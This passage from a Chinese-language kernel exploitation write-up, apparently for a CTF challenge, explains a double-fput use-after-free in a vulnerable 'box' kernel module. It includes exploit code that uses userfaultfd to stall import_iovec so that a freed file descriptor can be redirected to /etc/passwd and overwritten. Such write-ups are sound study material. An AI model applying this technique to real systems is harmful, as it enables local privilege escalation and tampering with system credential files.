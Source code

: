 在调用do_readv_writev时，会先将调用import_iovec函数从用户层复制iovec结构，之后再进行写操作。因为访问了用户层内存，所以触发了缺页错误，进入userfaltfd处理流程，在流程中执行pwn()函数触发漏洞，将uaf_fd指向/etc/passwd文件，并且通过ioctl(uffd, UFFDIO_COPY, &uffdio_copy)操作给iov地址上写入payload。

```
/**
 * import_iovec() - Copy an array of &struct iovec from userspace
 *     into the kernel, check that it is valid, and initialize a new
 *     &struct iov_iter iterator to access it.
**/
static ssize_t do_readv_writev()
{
    ...
    ret = import_iovec(type, uvector, nr_segs,
               ARRAY_SIZE(iovstack), &iov, &iter);
    ...
}
```

最后执行写操作，将iov上的内容写入/etc/passwd。

触发double-fput,形成UAF漏洞的过程如下：

```
void pwn(){

  int uaf_dup;
  printf("[*] pwning ...\n");
  int box = box_new(mod_fd,0x1337); //box = 6, 5分配给了 uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
  printf("[*] new_box : %x \n",box);

  // trigger uaf
  printf("[*] trigger uaf\n");
  set_box(mod_fd,box); // <-- [1]

  uaf_dup = dup2(uaf_fd,box); // uaf_fd = 4, uaf_dup=6,此时同时指向fd_4的文件
  
  box = box_new(mod_fd,0x1337); //box = 7
  // trigger uaf
  set_box(mod_fd,box);// <-- [2]
  close(uaf_dup);

```

[1]处file->private_data为[0]处赋值的4，对fd_4文件描述符进行操作，引用计数先增1，后触发漏洞连续减去两次，此时fd_4的文件引用计数为1。通过dup2函数使得fd_6也指向fd_4文件，引用计数此时为2。[2]处调用set_box，触发漏洞，先增1，变成3后，又连续两次减去1，变成1。最后利用close函数令引用计数清零，此时文件块属于释放状态，但uaf_fd仍指向该文件块。

在exp中插桩输出调试信息：

```
static int box_set(struct file *file, char *attr) {
  int fd;
  struct file *f;
  struct file *encfile;
  PRINTK("[%d] before f_count: %d \n",count , file->f_count);

  PRINTK("set box:\n",count);
  if (copy_from_user(&fd, (char *)attr, sizeof(int)))
    return -EFAULT;

  PRINTK("fd: %d \n", fd);
  encfile = fget(fd);
  PRINTK("[%d] before encfile->f_count: %d \n",count , encfile->f_count);
  f = check_encfile(encfile);
  PRINTK("[%d] before1 encfile->f_count: %d \n",count , encfile->f_count);
  if (IS_ERR(f))
```
